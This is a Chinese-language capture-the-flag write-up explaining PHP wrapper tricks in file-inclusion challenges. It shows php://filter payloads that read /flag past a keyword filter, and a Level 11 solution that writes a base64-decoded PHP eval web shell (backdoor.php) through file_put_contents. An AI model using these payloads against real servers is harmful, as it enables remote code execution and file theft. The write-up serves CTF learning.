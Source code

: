 所以在文件包含的题目中，除了include类型函数，其他文件系统函数也可以用来考察协议方面的内容，比如 file_put_contents(), file_get_contents(), file(), readfile() .etc。

`file_get_contents` 算是标准的Read行为，作为文件函数，他同样支持封装协议，由于题目要求输出的内容不能含有 flag 关键字，可以尝试字符串或者转换过滤器：

```php
php://filter/string.toupper/resource=/flag （正则并没有匹配大小写）
php://filter/string.rot13/resource=/flag
php://filter/read=convert.base64-encode/resource=/flag
...
```

### Level 11 文件系统函数_file_put_contents()

file_put_contents() 函数(https://www.php.net/manual/zh/function.file-put-contents.php) 这将对应过滤器中的Write方法，用于将数据写入文件。

`file_put_contents($filename,$data)`其中`filename` 是要被写入数据的文件名 —— 如果 filename 是 "**scheme://...**" 的格式，则被当成一个 URL，PHP 将搜索协议处理器（也被称为封装协议）来处理此模式。

```php
function hello_ctf($filename,$data){
    if(preg_match("/flag|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $data)){
        die("WAF!");
    }
    file_put_contents($filename,$data);
}
```

正则同 Level 3 中一样,那么写入一个Base64字符串即可。

Payload：

**GET**：`?filename=php://filter/write=convert.base64-decode/resource=backdoor.php`

**POST**：`data=PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGwnXSk7Pz4`

```php
backdoor.php : <?php eval($_POST['hell']);?>
```

### Level 11- 封装协议解析

死亡绕过前置关卡，最早来源于P牛2016年的博客文章：https://www.leavesongs.com/PENETRATION/php-filter-magic.html

不过由于PHP版本的更新，string.strip_tags 已经被弃用。

注：该关卡没有FLAG.

[【filter过滤器】](https://www.php.net/manual/zh/filters.convert.php)：

`string.rot13`

`string.strip_tags` 去除html、PHP语言标签 (本特性已自 PHP 7.3.0 起废弃)

`convert.base64-encode` 和 `convert.base64-decode`

`convert.iconv.<input-encoding>.<output-encoding>` 或 `convert.iconv.<input-encoding>/<output-encoding>`
